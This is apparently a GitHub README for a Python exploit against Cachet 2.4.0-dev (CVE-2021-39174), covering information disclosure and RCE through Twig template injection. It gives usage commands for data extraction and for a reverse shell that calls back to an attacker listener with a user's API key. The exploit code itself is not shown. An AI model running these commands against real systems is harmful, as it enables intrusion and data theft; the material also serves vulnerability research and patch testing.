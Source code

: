# Project Title

CVE-2021-39174 Cachet 2.4.0-dev Information Disclosure and Remote Code Execution

## Description

A python3 script for CVE-2021-39174 Cachet 2.4.0-dev Information Disclosure and RCE via Twig Server Side Template Injection. For the RCE the API KEY for the user is needed. Check out the Leave Songs link below which covers how to get the API KEY via SQL Injection CVE-2021-39165.

## Getting Started

### Executing program

* Data Extraction
```
python3 cachet_2.4.0-dev.py -t http://cachet.site/ -u username -p password
```

* Reverse Shell
```
python3 cachet_2.4.0-dev.py -t http://cachet.site/ -u username -p password -k API_KEY -lhost 127.0.0.1 -lport 1337
```


## Help

For help menu:
```
python3 cachet_2.4.0-dev.py -h
```

## Acknowledgments

* [SonarSource](https://blog.sonarsource.com/cachet-code-execution-via-laravel-configuration-injection/)
* [Leave Songs](https://www.leavesongs.com/PENETRATION/cachet-from-laravel-sqli-to-bug-bounty.html)

## Disclaimer
All the code provided on this repository is for educational/research purposes only. Any actions and/or activities related to the material contained within this repository is solely your responsibility. The misuse of the code in this repository can result in criminal charges brought against the persons in question. Author will not be held responsible in the event any criminal charges be brought against any individuals misusing the code in this repository to break the law.